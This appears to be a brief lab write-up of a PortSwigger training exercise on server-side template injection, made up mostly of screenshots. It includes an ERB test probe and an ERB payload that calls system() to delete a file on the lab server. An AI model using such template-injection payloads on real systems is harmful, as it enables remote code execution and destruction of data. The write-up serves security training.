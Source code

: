 # Basic server-side template injection
Lab URL :- 

`https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic`

![image](https://user-images.githubusercontent.com/60841283/153749305-388d3578-e656-4168-8866-43bd723ae79c.png)

## Message box

![image](https://user-images.githubusercontent.com/60841283/153749638-83c9bbe2-46cb-41b4-af5e-c1add09e605b.png)

### Request containing message 

![image](https://user-images.githubusercontent.com/60841283/153749699-3253e0d3-cda8-4fd7-aeb2-c5eb830a0257.png)

### Payload 
```html
<%= 7 * 7 %>
```

![image](https://user-images.githubusercontent.com/60841283/153749607-c2d4cc5c-46a4-44bb-b08f-9ae556447a21.png)

#### Deleting the file

```html
<%= system("rm /home/carlos/morale.txt") %>
```

![image](https://user-images.githubusercontent.com/60841283/153749856-bf3674af-85ee-4ebe-8200-8beeb878aed1.png)

Deleted!

![image](https://user-images.githubusercontent.com/60841283/153749878-cb05a710-1382-4408-874a-ffc94e0687c1.png)
